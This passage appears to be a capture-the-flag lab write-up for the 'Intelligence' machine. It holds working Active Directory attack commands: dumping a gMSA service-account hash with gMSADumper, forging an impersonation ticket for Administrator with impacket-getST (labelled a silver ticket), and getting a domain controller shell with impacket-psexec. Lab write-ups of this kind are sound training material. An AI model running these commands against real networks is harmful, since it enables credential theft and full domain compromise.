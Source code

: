 ## Reading GMSA Password

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#gmsa-attributes-in-the-active-directory

Reading GMSA passwords with [gMSADumper](https://github.com/micahvandeusen/gMSADumper)
```bash
❯ python gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l dc.intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::b98d4cef68f72a98dfeed732d1b1abca
```

## Silver ticket Attack

"If you have compromised a user account or a computer (machine account) that has kerberos constrained delegation enabled, it's possible to impersonate any domain user (including administrator) and authenticate to a service that the user account is trusted to delegate to." ; **[Source](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)**

And "svc_int$" has the constrained delegation privilege to the computer `S-1-5-21-4210132550-3389855604-3437519686-1000` which is a member of the group `ENTERPRISE DOMAIN CONTROLLERS@INTELLIGENCE.HTB`.

* https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket

Before generating Silver ticket, sync time with the target domain: `sudo ntpdate 10.10.10.248`

Generating silver ticket with impacket getST.py script
```bash
❯ impacket-getST -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes b98d4cef68f72a98dfeed732d1b1abca:b98d4cef68f72a98dfeed732d1b1abca
```

![](screenshots/silver-ticket.png)

Then Store `Administrator.ccache` path in a "`KRB5CCNAME`" environment variable
```bash
export KRB5CCNAME=./Administrator.ccache
```

Run `impacket-psexec` to get shell
```bash
❯ impacket-psexec intelligence.htb/Administrator@dc.intelligence.htb -k -no-pass
```
